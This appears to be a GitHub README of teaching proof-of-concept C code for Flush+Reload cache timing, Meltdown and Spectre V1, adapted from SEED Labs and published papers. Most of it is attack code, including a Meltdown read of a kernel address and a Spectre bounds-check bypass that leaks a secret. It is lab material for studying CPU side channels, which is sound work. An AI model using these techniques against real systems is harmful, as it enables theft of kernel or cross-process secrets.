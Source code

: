 # The Proof of Concept with meltdown and Spectre

* those simple cases are base on SEED Labs:[SEEDLab project](https://seedsecuritylabs.org/labs.html).
* only for learning proposes
* if you have any questions about those simple proof cases welcome contact me by email :`leeyang1109@163.com`

<hr>

## Flush+Reload

### References

* [Click to flush+relaod github project](https://github.com/hjdrahub/flush-reload.git)
  
  ```
  git clone https://github.com/hjdrahub/flush-reload.git
  ```
  
* [23th USENIX paper-Yarom](https://www.usenix.org/conference/usenixsecurity14/technical-sessions/presentation/yarom)
 

### Proof of Concept for Flush+Reload(`flush_reload.c`)

get cache hit cycles:

```c
uint8_t array[10*4096];
int main(int argc, const char **argv) {
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  // 初始化arrayy以免内存不分配空间
  for(i=0; i<10; i++) array[i*4096]=1;
  // 将Cache中array的值flush
  for(i=0; i<10; i++) _mm_clflush(&array[i*4096]);
  // 访问一些基本的数组
  array[3*4096] = 100;
  array[7*4096] = 200;
  array[10*4096] = 255;
  for(i=0; i<10; i++) {
    addr = &array[i*4096];
    time1 = __rdtscp(&junk);                
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;       
    printf("array[%d*4096] access time: %d CPU cycles\n",i, (int)time2);
  }
  return 0;
}

```
flush+reload is a high resolution low noise cache side channel attack which is prove by Yarom in USENIX Security Symposium. the basic idea to implement the CSCA.
firstly,we need to caculate the differnece between cache missing and cache hit,so that we can get threshold. the simple method is observe  CPU cycles when the cache hit by instruction`rdstc`.
`rdstc` return a level 32bit binary number when access the memory which address is provided.
`__rdtscp` Generates the rdtscp instruction, writes TSC_AUX[31:0] to memory, and returns the 64-bit Time Stamp Counter (TSC) result.

```c
uint8_t array[256*4096];
int temp;
unsigned char secret = 94;
/* 假设Cache hit的阈值为80*/
#define CACHE_HIT_THRESHOLD (80)
//设置偏移量DELTA 任意0-4096偏移量都会将其所在的整个page加入Cacheline
#define DELTA 1024

void victim()
{
  temp = array[secret*4096 + DELTA];
}

void flushSideChannel()
{
  int i;
  // 向数组中写数据将其带入RAM 防止 Copy on Write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;
  //将数组从Cache Line中清除
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 + DELTA]);
}

void reloadSideChannel() 
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
     addr = &array[i*4096 + DELTA];
     time1 = __rdtscp(&junk);//返回时间计数器的值
     junk = *addr;//获取这个地址内存中的值
     time2 = __rdtscp(&junk) - time1;//获取时间差
     
     //若访问这个地址的时间差小于threshold 则判定cache hit
     if (time2 <= CACHE_HIT_THRESHOLD){
         printf("array[%d*4096 + %d] is in cache.\n",i,DELTA);
         printf("Victim's Secret:%d.\n",i);
     }
  }
}

```

<hr>

## Meltdown

### References

* [Download:27th USENIX-Meltdown: Reading Kernel Memory from User Space.pdf](https://www.usenix.org/system/files/conference/usenixsecurity18/sec18-lipp.pdf)

* [Meltdown github](https://github.com/IAIK/meltdown.git)
  ```
  git clone https://github.com/IAIK/meltdown.git
  ```

* [SEED Lab project:Meltdown](https://seedsecuritylabs.org/Labs_20.04/System/Meltdown_Attack/)

### Out-of-Order Execution

![Out-of-Order Execution](./img/OoO.png)

### Proof of Concept for Out-of-Order Execution(`MeltdownExperiment.c`)

the whole code are as follows:

```c
uint8_t array[256*4096];
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void meltdown(unsigned long kernel_data_addr)
{
  char kernel_data = 0;
  //下述语句会造成异常
  kernel_data = *(char*)kernel_data_addr;
  //array[kernel_data * 4096 + DELTA] += 1;
  array[7 * 4096 + DELTA] += 1;
}

void meltdown_asm(unsigned long kernel_data_addr)
{
   char kernel_data = 0;
   
   // Give eax register something to do
   asm volatile(
       ".rept 400;"                
       "add $0x141, %%eax;"
       ".endr;"                    
    
       :
       :
       : "eax"
   ); 
  //下述语句会造成异常
   kernel_data = *(char*)kernel_data_addr;  
  //无序执行会执行这一步
   array[kernel_data * 4096 + DELTA] += 1;           
}

int main()
{
  // Register a signal handler
  signal(SIGSEGV, catch_segv);
  flushSideChannel(); 
  if (sigsetjmp(jbuf, 1) == 0) {
     meltdown(0xfb61b000);//inaccessible kernel address
  }
  else {
      printf("illegal memory access!\n");
  }
  reloadSideChannel();                     
  return 0;
}

```
The success or failure of the program execution is contingent,the meltdown attack result are as follows:
![meltdownAttack](./img/meltdown.png)

<hr>


## Spectre V1

```c

unsigned int bound_lower = 0;
unsigned int bound_upper = 9;

uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9}; 

char    *secret    = "Ningxia University";  

uint8_t array[256*4096];

#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

//////////////////////////////////////////////////////////////
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower) {
     return buffer[x];
  } else {
     return 0;
  } 
}
///////////////////////////////////////////////////////////////
void spectreAttack(size_t index_beyond)
{
  int i;
  uint8_t s;
  volatile int z;
  // Train the CPU to take the true branch inside restrictedAccess().
  for (i = 0; i < 10; i++) { 
      restrictedAccess(i); 
  }
  // Flush bound_upper, bound_lower, and array[] from the cache.
  _mm_clflush(&bound_upper);
  _mm_clflush(&bound_lower);
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  for (z = 0; z < 100; z++)  {   }
  // Ask restrictedAccess() to return the secret in out-of-order execution. 
  s = restrictedAccess(index_beyond);  
  array[s*4096 + DELTA] += 88;  
}
//////////////////////////////////////////////////////
void bounds_check_bypass(){
  flushSideChannel();
  size_t index_beyond = (size_t)(secret - (char*)buffer);  
  printf("secret: %p \n", secret);
  printf("buffer: %p \n", buffer);
  printf("index of secret (out of bound): %ld \n", index_beyond);
  spectreAttack(index_beyond);
  reloadSideChannel();
}

int main() {
  bounds_check_bypass();
  return (0);
}

```
`SpectreAttack.c`result:
![SpectreAttack](./img/spectre.png)
execute `SpectreAttackImproved.c` to get the number of cache hit about 1000 times experiment
the result are as follows:
![SpectreAttackImproved](./img/spectreAttackImproved.png)